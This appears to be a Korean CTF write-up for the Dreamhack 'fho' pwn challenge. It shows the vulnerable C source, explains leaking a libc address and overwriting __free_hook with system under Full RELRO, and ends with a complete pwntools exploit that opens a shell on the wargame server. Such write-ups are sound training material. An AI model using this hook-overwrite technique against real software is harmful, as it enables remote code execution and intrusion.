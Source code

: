 ```yaml
---
title: "[ Dreamhack ] fho"
date: 2023-04-05T13:59:15.762Z
categories: [Wargame, Dreamhack]
tags: ["dreamhack","pwn"]
---
```

![](/images/0769808e-3a1d-4e6b-a791-c0b9e3e9dc5a-image.png)

<br>

## **문제 분석**

---

![](/images/74b24d46-4e40-4b04-acf2-1b7e3c5fb627-image.png)

>모든 보호기법이 적용되어 있다. 특히 Full RELRO가 적용된 것을 볼 수 있다.

<br>



```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
  char buf[0x30];
  unsigned long long *addr;
  unsigned long long value;

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  puts("[1] Stack buffer overflow");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  puts("[2] Arbitary-Address-Write");
  printf("To write: ");
  scanf("%llu", &addr);
  printf("With: ");
  scanf("%llu", &value);
  printf("[%p] = %llu\n", addr, value);
  *addr = value;

  puts("[3] Arbitrary-Address-Free");
  printf("To free: ");
  scanf("%llu", &addr);2
  free(addr);

  return 0;
}
```


1. stack에 값을 입력받는다.
2. 원하는 주소에 원하는 값을 입력할 수 있다.
3. 원하는 주소를 free할 수 있다.

<br>

<br>

## **문제 풀이**

---


1. Full RELRO 때문에 GOT를 덮어 쓸 수 없다.
하지만 free함수가 실행될 때 내부적으로 실행되는 함수 ```__free_hook```함수는 overwrite가 가능한 bss영역에 있기 때문에 __free_hook함수를 덮어쓰면 된다.

<br>

2. 각 함수의 주소를 알기 위해서는 library의 주소를 알아내야 한다. PIE 때문에 return gadget을 이용하여 read()의 got값을 출력할 수도 없다. 이럴때는 main함수의 return address인 __libc_start_main_ret의 주소를 이용하면 된다.

![](/images/37d92313-4f05-47bd-b030-cf6f004f43a0-image.png)

![](/images/d9b4646f-c5b4-41ad-a8ca-6ecac585e9b6-image.png)

gdb 에서 main함수를 실행하고 스택을 보면 main함수의 return address가 __libc_start_main+243인 것을 알 수 있다. 이 주소가 __libc_start_main_ret이다.

<br>

하지만 libc마다 주소가 다르므로 문제에서 주어진 libc를 가지고 분석을 해야한다.

<br>

![](/images/9610133b-4882-4b21-8038-a21d4fb0d3be-image.png)

먼저 제공된 libc를 gdb에 올려주고 특정 함수들의 주소를 확인해준다.

이후 libc-database에서 검색을 해주면 해당 libc의 종류와 다른 함수들의 offset을 알 수 있다.

<br>

![](/images/33254b90-1774-46ab-91ae-a0d96c6db32c-image.png)

libc를 찾고 All symbols에 들어가면 모든 함수들을 볼 수 있는데 여기서 __libc_start_main_ret의 offset을 찾으면 된다.

<br>

![](/images/4e0f6636-3d66-4890-88fb-261b645abc8d-image.png)

지금까지 찾은 정보들을 이용하여 exploit code를 작성하면 된다.

<br>

<br>

## **Exploit Code**

---


```python
from pwn import *

p = remote('host3.dreamhack.games', 13864) 
e = ELF('./fho')
libc = ELF('./libc-2.27.so')

libc_start_main_ret_offset = 0x21bf7

buf = b'A'*0x40 + b'B'*0x8
p.sendafter('Buf: ', buf)
p.recvuntil(buf)

libc_start_main = u64(p.recvline()[:-1] + b'\x00'*2)
libc_addr = libc_start_main - libc_start_main_ret_offset
system_addr = libc_addr + libc.symbols['system']
free_hook = libc_addr + libc.symbols['__free_hook']
binsh = libc_addr + next(libc.search(b'/bin/sh'))

p.recvuntil('To write: ')
p.sendline(str(free_hook))
p.recvuntil('With: ')
p.sendline(str(system_addr))
p.recvuntil('To free: ')
p.sendline(str(binsh))

p.interactive()
```